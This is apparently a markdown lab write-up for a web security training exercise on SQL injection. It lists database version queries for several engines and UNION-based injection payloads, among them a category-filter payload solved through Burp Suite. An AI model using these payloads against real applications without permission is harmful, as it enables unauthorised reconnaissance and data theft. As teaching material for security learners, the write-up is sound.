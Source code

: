 # Examining the database in SQL injection attacks
- Find the information of the database which includes:
    - The type and version of the database software.
    - The tables and columns the database contains.

# Querying the database type and version
- One can easily find the database type and version by using the following **query**:
    **For Microsoft, MySQL**
    ```
    SELECT @@version
    ```

    **For Oracle**
    ```
    SELECT * FROM v$version
    ```

    **For PostgreSQL**
    ```
    SELECT version()
    ```

- The above queries can be used in attack using `UNION` as following payload:
    ```
    ' UNION SELECT @@version --
    ```

# Lab: SQL injection attack, querying the database type and version on Oracle MySQL and Microsoft

- **Seneario** : Lab contains the vulnerability in the product category filter. Can use a `UNION` attack to retrieve the results from an injected query.
- **Given** : The lab's database is either MySQL or Microsoft.
- **To Solve** : Display the database version string.

# Solution
1. Determine the number of columns required to perform the attack using the previous null steps.
2. Find the datatype of each column.
3. Use the `UNION` attack to retrieve the database version string. The payload can be used as
    ```
    ?category=Gifts' UNION SELECT @@version, null--
    ```
4. Firing the payload in Burp Suite will solve the given lab as shown in **Figure**.
    ![image of burp of payload](images/database_version.png)

